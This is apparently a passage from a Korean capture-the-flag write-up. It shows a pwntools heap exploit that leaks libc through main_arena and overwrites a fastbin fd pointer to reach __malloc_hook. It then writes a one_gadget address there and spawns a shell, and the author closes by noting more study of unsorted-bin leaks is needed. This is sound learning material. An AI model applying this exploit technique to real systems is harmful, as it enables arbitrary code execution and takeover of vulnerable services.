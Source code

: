 ```python
 
leak = u64(p.recv(6).ljust(8,'\x00'))
base = leak - arena
one_gadget = base + oneshot
hook = base + malloc_hook
fake = hook - 0x23
 
log.info('main_arena+88 leaked : ' + str(hex(leak)))
log.info('libc base : ' + str(hex(base)))
log.info('oneshot gadget : ' + str(hex(one_gadget)))
log.info('__malloc_hook : ' + str(hex(hook)))
 
# exploit
alloc(0x65) # idx4
alloc(0x65) # idx6
alloc(0x65) # idx7
 
free(4)
free(7)
payload = p64(8) * 13 + p64(0x71) + p64(fake) # overwriting chunk7 fd
 
fill(6, payload)
 
alloc(0x65)
alloc(0x65)
 
payload = p8(0) * 19
payload += p64(one_gadget)
 
fill(7, payload) # writing oneshot gadget into __malloc_hook
 
alloc(10) # get shell
 
p.interactive()
```
* * *
heap에서 libc leak은 대부분 unsorted bin의 fd와 bk에서 일어난다는데 이 부분에 대해서 공부를 더 해봐야할 것 같습니다.
